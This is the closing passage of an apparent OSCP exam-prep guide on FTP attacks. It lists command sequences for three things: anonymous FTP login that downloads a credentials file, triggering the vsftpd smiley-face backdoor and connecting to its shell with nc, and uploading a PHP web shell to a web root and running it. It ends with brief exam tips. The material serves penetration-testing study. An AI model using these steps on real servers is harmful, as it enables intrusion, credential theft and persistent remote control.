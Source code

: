 ### Scenario: Anonymous FTP Enumeration

```bash
ftp target
Name: anonymous
Password:
ls -la
get credentials.txt
```  

### Scenario: vsftpd Backdoor Exploitation

```bash
ftp target
Name: user:)
nc target 6200
```  

### Scenario: Web Shell Upload

```bash
ftp target
cd /var/www/html
binary
put shell.php
curl http://target/shell.php?cmd=id
```  

## 11. OSCP Exam Tips and Best Practices

- Always start with enumeration
- Test anonymous access immediately
- Automate repetitive tasks
- Document findings thoroughly
- Practice edge cases in lab environments

_End of guide._